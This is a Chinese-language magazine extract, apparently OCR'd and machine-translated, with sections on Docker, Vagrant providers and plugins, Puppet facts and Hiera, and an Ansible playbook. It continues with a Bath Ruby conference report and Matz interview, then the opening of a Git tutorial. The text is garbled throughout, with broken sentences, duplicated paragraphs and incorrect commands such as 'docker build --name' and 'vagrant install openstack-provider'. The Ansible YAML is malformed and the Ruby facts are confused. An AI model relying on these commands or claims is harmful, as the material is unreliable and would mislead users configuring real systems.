

## 在哪里找到你寻找的内容

- **Docker 部署 p20**

  发现从 Web 开发人员工作站到企业服务器，创建和运行 Docker 容器时所需的一切内容。

- **使用 Vagrant 的脚本 p22**

  借助脚本语言，全自动地在不同设备、机器和操作系统之间创建和部署虚拟服务器及 de。

- **更多 Vagrant 提供程序 p24**

  扩展在 Hyper-V 和 VMware vSphere 等企业平台，以及 AWS 和 Azure 等云平台上的虚拟服务器创建的自动化。

- **Puppet 资源制备 p26**

  使用支持良好的工具，集中管理应用程序，并在你的设备和网络之间保持服务器配置同步。

- **配置 Ansible p28**

  设置你 Puppet 和 Chef 的替代品，然后通过编写自己的剧本来跨机器管理和配置文件。

Puppet 和 Ansible 可以集中管理配置文件、包版本和脚本化部署以管理一切，设置性能并几乎立即将网络回滚到“已知良好”的状态。使用 Ansible，系统管理员将不得不过度配置他们的服务器以允许峰值负载。随着云计算的引入和对现场基础设施的支持系统。

在 Mozilla Firefox 中或通过终端运行测试页：

```
$ curl http://localhost:49153
```

然而，一个网站的好坏取决于它所提供的服务。目前我们拥有的只是 Nginx 测试；我们需要将 HTML 文件放入 Docker。有三种方法可以实现这一点：

一种方法是不离分离模式运行容器，这样我们就可以 SSH 进入容器并使用 SCP 传输文件。另一种方法是在我们需要将 `/var/www` 的内容映射到 Docker 中的默认目录时使用卷（volumes）：

```
$ docker run --name website2 -v /var/www/share/nginx/html:/html:ro -P -d nginx
```

此行中的 `ro` 确保文件内容只能在宿主机系统上编辑，而不会被容器内可能更改它的进程修改

另一种方法是使用 Dockerfile 定义你想复制到容器的文件。我们没有扩展名，但参考此示例：

```dockerfile
# FROM nginx
# COPY /var/www
# VOLUME /usr/share/nginx/html
```

一旦准备就绪你就可以重新构建并运行你的容器：

```
$ docker build --name myserverimage -d myserverimage
```

此外，在 Docker Hub（`https://docker.com/explore`）上搜索预构建的容器，我们可以使用 Docker Compose 在一步内完成此操作。在服务中，我们有一个带有 Ansible 的示例 Dockerfile。我们提取了以下对应的容器：

```
$ docker-compose run web rails --database=postgresql
$ docker-compose up
```

将 `config/database.yml` 替换为我们的版本（该版本不映射任何端口到宿主机），然后在两个不同的网络中运行：

```
$ docker-compose up web
```

此时，你应该能够通过 http://localhost:3000 访问 Rails 页面了。

> 快速提示

> 滚动你的容器

创建容器最简单的方法是完成原生的 'ubuntu' 或 'coreos' 并使用 Docker 对进行自定义。使用 'build' 和 'save' 来创建并导出最终产品。

你应该能看到你的新网站在新的 localhost 端口映射上运行。现在假设我们有一组更复杂的需求，例如开发一个数据库驱动的网站。与其手动指定每一个……

### 4 检查容器状态

你可以查看所有已安装的镜像。要获取更多关于哪些容器正在运行以及它们在做什么的信息，你应该尝试：

```
$ docker ps -a
```

### 5 访问你的容器

使用以下命令连接到容器并运行多个命令：

```
$ docker run -it busybox sh
# ls
# ps -a
```

### 6 销毁你的容器

在使用第4步中的第二个命令获取容器 ID 后，你可以停止并删除特定的实例。成功删除后，你将看到显示的容器 ID

## 使用 Vagrant 的脚本

跨服务器自动化虚拟机的创建和管理

Vagrant 是一个由 HashiCorp 公司赞助的成熟产品。它的主要目的是为不同的虚拟化技术提供通用的命令行和配置架构。这意味着你可以对 VirtualBox、VMware Workstation 和 Vagrant 使用相同的命令，简化了 vagrant 的使用，因为它为各种提供程序和环境的命令行界面提供了封装器。

这意味着你可以创建一个单一脚本来配置你的基础设施，并在任何地方运行它——或按你喜欢的方式使用。同一个 Vagfile 可以用于创建不同的产品或云服务。

开发者会发现它特别有用，因为他们可以创建一个安装了所有所需 IDE 和工具的通用开发环境，新成员可以快速且轻松地运行。还可以模拟一个比生产环境更复杂的完整服务器——对于测试特别有用。你可能好奇 Vagrant 在这种情况下是如何工作的

在这种情况下，Vagrant 可以以提供 VM 完全相同的方式提供 Docker 容器。通过将它设置为 "`vagrant-provider docker`"，也可以在任何虚拟服务器上运行 Docker 容器。

第一步是安装选择的 Docker 编排平台。Vagrant 原生支持 VirtualBox，这在桌面级上也支持，但你也可以为 Vagrant 使用专有的 HashiCorp 驱动程序作为“提供程序”。

接下来，获取 Vagrant 的最新版本。你应该避免通过包管理器安装 Vagrant，因为它可能是一个旧版本，不是最新版本的 VirtualBox 版本。

一旦安装完成，你就可以无需任何先验配置，仅使用几条命令创建第一个虚拟机：

```
$ mkdir test && cd test
$ vagrant init bento/ubuntu-18.04
$ vagrant up
```

你会注意到屏幕上没有出现错误。这是因为 Vagrant 默认是无头运行的，所以你使用：

```
$ vagrant ssh-config
$ vagrant ssh
```

你放置在 Vagfile 相同目录下的任何文件也可以通过 vagrant 供客系统可用。然而，你可能希望在虚拟机上运行完整的 GUI，在这种情况下设置一个只有 GUI 的会话特别有用。幸运的是，有一种方法可以更改这一点，你可能会注意到运行 vagrant init 时，相同目录下创建了一个名为 Vagrant 的文件。在这里你可以调整虚拟机的设置，默认情况下填充了注释以帮助你配置 Vagrant。你会注意到它默认是 base，或者你运行 Vagrant init 命令时想要设置的任何选项。跳过端口转发和共享文件夹，你会发现以下行：

你可以使用命令 `vagrant plugin list` 检查安装了哪些插件

### 入门

Vagrant 的入门指南帮助你快速启动并运行。如果你不确定 Vagrant 有哪些功能，可以阅读《Vagrant: Up and Running》，由 O'Reilly 编写。在开始之前，请了解通过 Vagrant 创建快照，以便回到这些快照。我们之前提到过可以在 Vagrant VM 中转发端口。唯一的默认端口是 SSH，如果你访问端口 22，则是不需要的。只需在 Vagrantfile 中取消注释行，即可将 HTTP 端口 80 映射到 http://localhost:4080。你也可以复制并粘贴此行，根据你在 VM 中运行的应用程序调整端口号。

> 快速提示

> 创建自己的 box

> 为 Vagrant 创建自己的镜像并供 Vagrant VM 使用的方法是使用你的基础镜像，填充 JSON 文件然后将其打包供你的提供程序使用。更多信息访问 www.vagrant.com/boxes/base.html。

## 热 Vagrant 插件

扩展功能

- 1 使用 Cucumber 进行 BDD

通过 Vagrant 的帮助，你可以在 Vagrant VM 中运行所有的行为测试。要启动这些测试，可以使用现有的 Feature 文件并部署到 Vagrantfile 或在那里运行 vagrant cucumber。

- 2 Shell 命令

Vagrant-exec 在你的 VM 上运行 shell 命令，你可以通过进入 Vagrantfile 目录并在每个命令前加上 vagrant 来实现。在这里很容易记住如何创建新的 SSH 会话。

- 3 Fabric 配置

Vagrant-fabric 更进一步，它通过一个名为 Fabric 的 Python 2.7 扩展执行脚本和部署：在你的 Vagrantfile 中作为配置器使用。

## 特性

## 控制容器

### 更多 Vagrant 提供程序

在商业虚拟化平台和云端使用您的脚本

Vagrant 对 Oracle VirtualBox 的原生支持并非您的唯一选择。得益于社区插件的支持和代码贡献，也可以使用其他提供程序。这在企业环境中特别有用，在这些环境中，您可能已经运行了：

```bash
# image is not run, replace.build_with:
# dimage = "nginx"
```

在这两种情况下，Vagrant 都足够智能，可以处理正确的端口并设置一个与 VirtualBox 虚拟机目录相同的文件夹。



您想尝试其他操作吗？例如，如果你想在非 Linux 系统上配合 Vagrant 使用 Docker，Vagrant 将自动从 'bootdockerer' 镜像创建一个 VirtualBox 虚拟机以便启动它。

> 与 Docker 提供程序不同，你需要将 OpenStack 提供程序安装为插件

使用像 OpenStack 或 VMwareSphere 这样高度可扩展性的东西。例如，你可以像使用 VirtualBox 一样轻松地在 Vagrantfile 中将 Docker 作为提供程序。唯一的区别在于 Vagrant 中执行的精确命令集：

```ruby
Vagrant.config("2") do |config|
  config.vm.provider "docker" do |d|
    d.build_dir = ""
  end
end
```

这告诉 Vagrant 使用 Docker 作为提供程序，然后指示 Vagrant 构建你提供的镜像。为了下载容器，OpenStack 旨在作为一个用于云内云计算的免费开源软件框架。在需要大量原始算力才能发挥作用机器上，设置和运行它可能会很复杂。幸运的是，你可以使用 PackStack 来构建上述配置容器。使用 Vagrant 处理置备容器像使用 Puppet 处理虚拟机一样简单：使用 `https://openstack.org/wiki/PackStack`。

和 Docker 提供程序一样，你可以在 Vagrant 中使用特定设置来配置新实例，你可以在 GitHub 页面上看到此示例：`http://bit.ly/lod_openstack`。如果你需要安装 OpenStack 提供程序作为插件：

```bash
vagrant install openstack-provider
```

如果 Vagrantfile 中只指定了一个提供程序，Vagrant 将默认使用它。如果你指定了多个提供程序，或者 Vagrant 未检测到，你可以强制指定特定的一个：

```bash
vagrant --provider=openstack
```

另一个流行的（尽管免费的）企业

> 提示

使用 Vagrant 使用 Kubernetes

有时 Docker 容器需要部署和扩展；Vagrant 也支持。它由官方 GitHub 项目本地处理：KUBERNETES_PRODUCER=/cluster-as

> 指南

在云端使用 Vagrant

编写脚本和管理您的内部基础设施远非 Vagrant 的唯一用途。有很多社区构建的平台，这意味着你不需要为每个 API 创建新脚本。结果是，你可能需要使用 Vagrant 使用 Azure 和 Google Cloud。然而，存在某些限制。例如，AWS 每天创建新服务，且只有其 API 的子集支持。然而，如果你需要在 AWS 上创建 EC2 实例并使用 Elastic Beanstalk，你可以通过指定 AWS 认证设置和相同的 Vagrantfile 来配置虚拟机。



上述：Hashicorp 拥有跨多个提供程序的虚拟机置备服务。

## 虚拟交换机管理器

| 虚拟交换机 | 虚拟交换机属性 |

|---|---|

| 新虚拟交换机 | 名称: |

| 外部交换机 | 虚拟交换机 |

| 宽带 57Gbps... | 注意: |

| 全局网络设置 | 连接类型 |

| MAC 地址范围 | 你想将此虚拟交换机连接到 |

| | 外部网络: |

| | 宽带 57Gbps |

| 允许此操作系统适配器 | 互联网 |

| | 私有网络 |

| VLAN ID | 为管理适配器启用 VLAN |

顶层 Vagrant 使虚拟机基础设施变得自动化。上述 Vagrant 插件通常使用方便的 Vagrantfile，使其变得更好，并带有额外功能。


虚拟化平台是 VMwareSphere。像 VirtualBox 一样，一旦你安装了它的插件，Vagrant 就支持它：

- `vagrant install vagrant-vsphere`

你有选择从箱构建或使用 Vagrant 重用任何项。使用 Workstation 创建的任何箱都可以由于共享基础与 vSphere 使用，尽管通过虚拟程序的管理界面导入虚拟机镜像可能会更容易。如果你想导入现有虚拟机，你需要一个 Vagrant 模板。更多信息请访问：http://bit.ly/vud_vsphere

生产环境最后的虚拟化使用的是 XenServer 提供程序，那么你就幸运了。`Vagrant-xserver-plugin` 允许你创建自己的箱，Vagrant 也支持它。

更多请访问：http://bit.ly/libvirt

KVM 也作为 Vagrant-provider 支持。Vagrant 也支持它。

`Vagrant-xserver-plugin` 被 Vagrant 支持，同时也由 Vagrant 插件支持。

## 特性

## 控制计数

### 更多 Puppet 提供程序

### Puppet 部署

Puppet 的主要功能是管理 Linux 和 Windows 的配置，被称为“主”`master`。关键优势是你可以在一个地方为服务器定义通用设置，而无需手动操作。这在理论上意味着减少了由配置引起的问题和困惑日志。

你首先需要获取的是一个 Puppet master 和至少一个运行的服务器。使用 Docker，你需要创建两个容器并将它们放在同一个网络中，以便它们可以互相检测。

强烈建议你在你的 Puppet 主服务器 `master server` 上使用良好的服务，因为它与所有服务器之间的任何同步都需要使用限期证书。如果系统时钟偏差过大，服务器将拒绝接受任何更改。最后，你可以

Puppet 搜索：技术帮助

```bash
bob@laptop:~$ docker run --name puppet puppet/puppet-alpine facts
{
  "name": "0080003b172c-home",
  "puppet": "puppet-5.5.8",
  "version": "2.5.1",
  "os": "linux",
  "facts": "false",
  "os_release": "release-3",
  "kernel": "x86_64",
  "network": "255.255.255.0",
  "interface": "eth0",
  "ipv4_address": "172.17.0.2",
  "macaddr_address": "00:15:5d:02:13:02",
  "ipv4_address": "127.0.0.1",
  "hostname": "6536-6536",
  "architecture": "x86_64",
  "model": "generic"
}
```

## Puppet 可以跟踪网络服务的当前运行状态并在需要时重启

通过编辑 `/etc/puppet/puppet.conf` 并刷新证书来编辑你的 Puppet 主服务器配置，例如环境名称、DNS 名称和证书。要进行手动管理，你可能需要在 `$ puppet agent -` 的世界中重启 SSL 证书。

在接下来的漫游中，我们将学习如何为你的 Hiera、Puppet fact-look-up 系统创建一个自定义模块，该系统使用 `facts` 变量来描述环境。但在开始使用 Puppet 开发工具包 `Development Kit` 之前，我们应该检查是否已经存在我们可以编辑的 facts。

在列出 Puppet agent 暴露的内置变量和设置——`facts` 之后，你可以在自定义模块和 facts 中使用它们。

Puppet facts：是一个名为 `fact` 的工具，你可以通过使用 `$ facts` 查看它所感知的所有 facts。你也可以通过以下策略之一在你的 Puppet 模块中使用此命令创建你自己的 facts：

> 从 Puppet Forge 获取模块：你可以从 https://puppet.com 提供并配置标准组件，如包管理器、Web 服务器、数据库和网络服务。一旦知道你需要，就可以安装它：

```ruby
# $fact_name
# $facts[$fact_name]
```

了解更多 Puppet 的内置 facts，请访问 http://blog.ly/facts。

```bash
$ puppet install mycomponent
```

## 使用 Hiera 管理环境变量

1. 编辑 `hiera.yaml`：此文件列出了用于跟踪的值。通过编辑 `/etc/puppet/labs`，在 `code/environments/production/` 中定义可搜索的 facts。
2. 编写自定义模块：这创建了一个名为 `profile` 的新模块并使用 facts 进行分类，确保你使用的参数和类型。编写 fact 是可选的，但在以后排除故障时可能会帮助。
3. 设置常用值：到生产环境的 `data/` 目录并设置你的变量。键遵循 `profile:test_class::parameter` 的模式，并且与你的模块中的类型匹配。
4. 验证你的 facts：在成功创建模块后，你可以使用设置 `$ puppet lookup class::parameter --environment` 来测试它。

## 功能容器

## 配置 Ansible

使用 Red Hat 到 Puppet 管理你的应用程序和配置

```yaml
playbook.yml
hosts:
  webservers:
    remote_user: root
tasks:
  - name: ensure apache is at the latest
    yum:
      name: httpd
      state: latest
  - name: edit the apache config file
    template:
      src: httpd.j2
      dest: /etc/httpd/httpd.conf
hosts:
  databases:
    remote_user: root
tasks:
  - name: ensure postgresql is installed
    yum:
      name: postgresql
      state: latest
  - name: ensure postgresql is started
    service:
      name: postgresql
      state: started
```

上述 Playbooks 是 Puppet 的 Manifest。使用 YAML 和直观的结构有助于 DevOps 团队保持平缓的学习曲线。

> Puppet 可以轻松地管理系统。Ansible 的部署。

Ansible 在许多方面比它的竞争对手更容易学习。Puppet 依赖于 agent，因此它可以编辑文件并运行自定义任务。另一方面，Ansible 不需要任何 agent，而是读取 playbooks 并即时执行任务，作为一个 playbook 文件。

Ansible 同样基于 Python 而不是 Ruby，所以你可能会发现自定义模块比 Puppet 容易得多，尽管 Puppet 需要下载特殊的 SDK 并控制你的主服务器。然而，这里没有中央仓库用于预构建的 Ansible 模块和 playbooks 以匹配文档。结果是你可能需要在 Github 上搜索帮助模块代码。

如上所述，Ansible 与 Puppet 不同，它遵循配置 manifest。首先，你定义主机 `server`，Ansible 使用 root 用户安装包并编辑文件，但如果你决定使用 SSH，你可以在下一个阶段执行。

> 快速指南
> 安装 Ansible

最直接的方法是通过 Python 分发的包管理器安装 Ansible。然而，你也可以通过你的包管理器安装它。最新版本不在默认通道中，有一点：RHEL 7 用户在安装 Ansible 之前需要启用 Extra 仓库，而 Ubuntu 用户可以安装。

## 特别报告：Ruby

## Ruby 依然活跃且健康

### Ruby 的创造者在五来的首次主旨演讲中宣布：“我们将尽一切努力生存下去”

Chris Thornett 从巴斯活动现场报道

一年一度巴斯 Ruby 会议是英国最大的 Ruby 活动，为期两天，融合了技术演讲和各种趣味活动（更不用说卡拉OK 了）https://bathruby.com/

> 软件是如何诞生的？这是一个来自友蔼的日本创造者松本裕弘 `Yukihiro Matsumoto` 的非凡问题。他的首次主旨演讲在为期两天的巴斯 Ruby 会议上吸引了 500 多名 Ruby 开发者。Ruby 在 2020 年 2 月庆祝了 25 周年——因此在 1995 年 12 月举行了盛典。为了回答自己的问题，Matz 建议，当软件成为你预期的那种富有诗意的答案时，它就诞生了。对于 Matz 来说，Ruby 的“诞生”比该语言的起源早两年，就在他的生日那天（松本裕弘于 1963 年 12 月 21 日出生于东京）。Matz 在看到一颗宝石后提到了这一点：“Ruby 既美丽又更昂贵，所以我把我的语言命名为 Ruby，”他对自己说道。

例如，它的语法非常易读且以一种紧凑的方式富有表现力，作为一种动态的、反射的面向对象的通用编程语言，它是直观且易学习的。Matz 引用道，Ruby 尝试尽一切，“Ruby 的设计目标是让程序员感到快乐。”

但并不是所有人都很快乐。该框架的流行程度已经下降。Ruby on Rails `RoR` Web 应用框架在那些开始处理大量繁重工作的初创公司中占据主导地位，此前在 2012 年的 RedMonk 语言排行榜中，人们曾用 Ruby 完成这些工作，而在其他语言中位列前 10。

然而，Matz 并不是年来第一个只为了生日蛋糕庆祝的人。Ruby 已经成熟，但关于它是否还能再生存 25 年仍然存在疑问。就像它的创造者一样，Ruby 语言充满活力且富有装饰。

Ruby 的排名下降到了第八。Ruby 尽管受欢迎，但它不再是超级巨了，并且面临着竞争问题，例如成为旧版 Web 更关注的问题。尽管完全没有死亡，但由于其局限性，例如 JavaScript 运行时环境 Node.js 已被前端 JavaScript 用户在前端和后端广受欢迎，其单线程处理多连接的方法和其他特性（尽管这确实使得它不适用于图像处理等 CPU 密集型任务）。

很清楚，我们意识到任何编程语言的采用都是受到源自社区语言和生态系统成长的项目和框架的刺激——而 Ruby 就是其中一个例子。虽然 Matz 在主旨演讲中广为人知地对他在语言中犯过的过去错误表示遗憾，但他明智地制定了解决性能和扩展性问题的路径。

Matz 关注两个关键趋势：可扩展性，以及他所谓的“更好的伙伴”。为了应对可扩展性并创造更大的创造力，Matz 相信“更快的执行、更少的代码、更多的团队[以及]代码本身比功能更重要。”他告诉我们：“但并不是为了执行更快，因为我们需要处理越来越多的流量。我们正在达到核心的极限。所以 Ruby 3.0 的目标是比 Ruby 2.0 快三倍——或者正如他所说，‘Ruby3x’。”

> 代码越多，意味着维护、调试、时间和更低的生产力


上方：Cookpad 的 CTO Mike Woodroof：“你在每次发布中都能发现语言的微小改进，这是一个非常有趣且好语言”

Cookpad `https://cookbook.co/uk` 是巴斯会议的主要赞助商，是一个深度依赖 Ruby 和 Rails 的团队典型示例。这是一个食谱共享网站，Mike Woodroof 说该网站在日本有超过 6000 万用户，正在全球范围内扩展，并将国际总部搬到了伦敦。使用 Ruby 构建，“我们的基础设施是由 Ruby 脚本构建的——‘Ruby 让一切都变得非常充实’”

正如 Ruby 工程师遍布世界，Cookpad 团队成员全职依赖。其中之一是 Matz，MRI 的创造者——自 1.9 版本以来一直是 Ruby 的官方解释器。由于他现在正在处理并发 `Project Guild` 项目，这是我们预计看到性能提升的另一个方面。然而，对于 Ruby 3，Woodroof 说：“对于 Ruby 来说，构建和解释是一个巨大的转变。Ruby 拥有这些性能特性……””

“这很容易说，”Matz 承认道，并指出在 1.8 时代，Ruby “太慢了”而且这是一个错误。佐木浩一 `Koichi Sasaki` 在 WARP `另一种 Ruby 方法` 上的工作提高了 1.9 的性能，Matz 说，“从那时起，我们一直在努力提高虚拟机的性能，但这还不够。”

## JIT 时代

为了提高性能，Ruby 正在引入 JIT `即时编译` 技术，这是一种 Java 和其他语言已经使用的方法。“我们说做这是一项复杂的项目，但我们的目标是在今年发布它，Ruby 2.6 将是首个，”Matz 确认道。“你可以在 2.6 预览版 `http://github.com/ruby/ruby-2.6-preview` 中看到 JIT 编译器的初始实现。对于 Ruby 2.6，”Matz 说，“‘至少对于 CPU 密集型任务来说，并不容易’。”


Matz 关注两个关键趋势：可扩展性，以及他所谓的“更好的伙伴”。为了应对可扩展性并创造更大的创造力，Matz 相信“更快的执行、更少的代码、更多的团队[以及]代码本身比功能更重要。”他告诉我们：“但并不是为了执行更快，因为我们需要处理越来越多的流量。我们正在达到核心的极限。所以 Ruby 3.0 的目标是比 Ruby 2.0 快三倍——或者正如他所说，‘Ruby3x’。”

> 代码越多，意味着维护、调试、时间和更低的生产力


上方：Cookpad 的 CTO Mike Woodroof：“你在每次发布中都能发现语言的微小改进，这是一个非常有趣且好语言”

Cookpad (`https://cookbook.co/uk`) 是巴斯会议的主要赞助商，是一个深度依赖 Ruby 和 Rails 的团队典型示例。这是一个食谱共享网站，Mike Woodroof 说该网站在日本有超过 6000 万用户，正在全球范围内扩展，并将国际总部搬到了伦敦。使用 Ruby 构建，“我们的基础设施是由 Ruby 脚本构建的——‘Ruby 让一切都变得非常充实’”

正如 Ruby 工程师遍布世界，Cookpad 团队成员全职依赖。其中之一是 Matz，MRI 的创造者——自 1.9 版本以来一直是 Ruby 的官方解释器。由于他现在正在处理并发（Project Guild 项目），这是我们预计看到性能提升的另一个方面。然而，对于 Ruby 3，Woodroof 说：“对于 Ruby 来说，构建和解释是一个巨大的转变。Ruby 拥有这些性能特性……”

“这很容易说，”Matz 承认道，并指出在 1.8 时代，Ruby “太慢了”而且这是一个错误。佐木浩一（Koichi Sasaki）在 WARP（另一种 Ruby 方法）上的工作提高了 1.9 的性能，Matz 说，“从那时起，我们一直在努力提高虚拟机的性能，但这还不够。”

## JIT 时代

为了提高性能，Ruby 正在引入 JIT（即时编译）技术，这是一种 Java 和其他语言已经使用的方法。“我们说做这这是一项复杂的项目，但我们的目标是在今年发布它，Ruby 2.6 将是首个，”Matz 确认道。“你可以在 2.6 预览版 (`http://github.com/ruby/ruby-2.6-preview`) 中看到 JIT 编译器的初始实现。对于 Ruby 2.6，”Matz 说，“‘至少对于 CPU 密集型任务来说，并不容易’。”

（注：此处文本包含大量的 OCR 导致的重复错误，已清理重复内容。）

# Ruby 创始人，松本裕弘 'Matz'

编程语言究竟是什么？

编程语言是让我们用人类和计算机都能理解的方式进行交流的方法。它是一种通信。同时，编程语言也是你以人类方式表达思想的方式，它也是你想法的工具。想一下你如何在纸上写代码，虽然没有在计算机上执行它（因为你无法离开那张纸），但它仍然帮助你理解你想要什么。

编程语言有不同的方式来表达想法、组织软件结构或提供某种抽象。这是语言的一个心理层面维度，促使我在过去的 25 年里致力于它。

在日本境外举办的首次 Ruby 挑战赛反映了从全球社区吸引更多贡献者的一种方式。

松本开玩笑说要成为“大师级伴侣”，就像程序员的好朋友一样。[我们]现在正处于计算机语言的开端，例如静态代码。Matz 还建议，在未来当你编译程序时，它可以建议（例如）你使用了带参数字符串的这个方法（你是否应该调用这个方法）。在他的主旨演讲后，松本描述这种互动性是至关重要的。他希望看到“一个能与我交互以更好地组织软件的 AI”。

# 我们将确保每个 Ruby 程序都在 Ruby 中运行

改变带来了软件可能不再按预期运行或完全无法运行的可能性。Matz 从过去的错误中吸了教训：“过去我们在 1.8 和 1.9 之间产生了一个巨大的差距。”我们制造了一个巨大的鸿沟并引入了许多破坏性更改，导致我们的社区分裂为两部分。这是我们学到的教训，为了不再再次犯同样的错误，以便我们在未来避免它。我们将把 Ruby 编译器加入到 2.6 中，直到 3.0 版本。Ruby 当时还没有准备好，但它将帮助某些代码且不会成为破坏性更改。我们将确保每个 Ruby 程序都运行在 Ruby 2 中。

目前工厂模式的现状将不会轻松，Matz 需要意识到：“十年前 Ruby 真的很火，但事实上，现在不被认为那么火了，但它已经成熟了，而且 Matz 无打算很快放弃它：Ruby 是一门帮助你提高效率的优秀语言，我希望 Ruby 永远如此，如果可能的话。这意味着我们必须永远持续演进，我们不能停止，不能停止”

你曾经是过开源软件吗？创建它时的意图是什么？

实际上，我在学校通过阅读免费软件的源代码（如 `(GNU) Emacs` 和其他免费工具）学习编程，因此对我来说制作免费软件非常自然，所以我有些担心，比如软件被某人或某些东西拥有。Ruby 最初是我的业余项目。

你遇到过害怕 Ruby 改变的人吗？

我们在设计上会犯错，但如果在代码中修复它们，可能会导致破坏性更改，所以如果避免破坏性更改，结果会满足我们的自尊心，但为了固化大型代码是不值得的。例如，如果我做了这一个影响 5% 代码的破坏性更改，可以使性能提高倍，我喜欢这样做……但我不会为了我的自尊心而改变任何东西。

你对那些说 Ruby 糟糕的人怎么看？

我不介意批评。如果有人对他们使用的语言感觉糟糕，让他们什么都不说就离开。但批评表明我们有需要改进的地方。我们想要这种批评，以便我们能建设性地对待它。

### 教程

## 核心 Linux：Git

第一部分

## Git：学习版本控制

通过我们简单的 Git 项目

### 开始使用 Git，一种用于 Linux 内核的强大且流行的版本控制系统

管理一个有很多不同贡献者的大型软件项目可能是困难的。你需要跟踪他们所的所有更改，以便你可以合并它们、构建它们或删除它们。用于这些目的工具被称为版本控制系统；有很多不同的系统可用，但 Git 已用于 Linux 内核，因为它适合这种规模。从那时起，Git 取得了成功。全球有 2000 万开发者使用 Git，由于它与 GitHub 的连接，Linux 社区和开源软件的版本控制。我们将使用 GitHub (`https://github.com`) 来托管项目。Git 没有绑定 GitHub；但该网站是最常用的仓库。如果你从未用过 GitHub，可以创建一个。

### 我们的第一个项目

Git 主要被用作源代码和其他部分的版本控制系统。然而，我们希望尽可能它是语言无关的。想象一下，我们的朋友 Jane 最近创建了一个名为 Emma 的草稿，她想要与我们进行协作。唯一的障碍是 Jane 是个初学者，对版本控制一无所知。了解如何使用 Git 是非常有用的，如果你计划贡献一个大项目。

# John

John 是一个计算机科学的大学导师。他喜欢每天使用终端命令。

- 如果没有安装，通过包管理器从 `https://git-scm.com` 安装

- 通过包管理器从 `https://ubuntu.org` 安装

| 文档 | 提交 | 补丁 | 源 |
| :--- | :--- | :--- | :--- |
| 代码 | Pull requests | releases | 贡献者 |
| 代码 | Pull requests | commits | master |
| 代码 | Pull requests | download | 文件 |
| 代码 | Pull requests | merge | |
| 代码 | Pull requests | unification | |
| 代码 | 新 pull request | create | 文件 |
| github.com | 提交指南 | 负的 | 函数 |
| sha-1 | 诱导 | | |
| 分支 feature/warning | | |
| 分支 feature/egless | | |
| 在...上以避免沉默 | | |
| 分支 feature/sample | | |
| 分支 feature/latest-tag | | |
| 分支 src/misc-git | | |

GitHub 提供了一种友好的方式来提交项目。第一步是创建一个仓库，我们将在 GitHub 网站上完成。导航到 `https://github.com` 的主页并点击“Start a project”按钮。会出现一个页面询问项目名称和其他信息。由于项目需要唯一的名称，GitHub 为项目建议了一个名称；尝试提供项目的描述。如果你想包含关于项目的重要信息，勾选“Initialize this repository with a README”。重要的是，这个文件将填充仓库，我们可以在计算机上开始工作。点击“Create repository”创建仓库；到达新项目的主页。GitHub 允许我们在线更改，但从现在起我们将使用命令行 Git。

我们需要做的最后件事是点击标记为“Clone”或“download”的绿色按钮，并复制显示的 URL。这是我们仓库的位置，我们需要将其克隆到我们的计算机上。

# 克隆并启动仓库

打开命令行窗口，导航到你想克隆仓库的目录。将所有的 Git 项目放在一个目录是一个好主意。在该目录内，输入 `git clone` 然后粘贴你复制的 URL。例如：

```bash
git clone https://github.com/My_Name/collaborative-emma.git
```

这将创建一个与你的项目同名的目录。使用 `cd` 进入目录。这将创建从 GitHub 克隆的项目本地副本。现在看起来我们有了 README 文件，但你会发现它还包含一个名为 `.git` 的目录。该目录包含了 Git 运行所需的所有项目信息——确保不要删除它！当你在本地分支做出更改时，它们不会立即推送到服务器。这是一好事，因为这意味着如果两个人同时处理一个文件，我们有机会合并更改。现在是时候通过 README 初始化仓库了。为了下载它，运行以下命令：

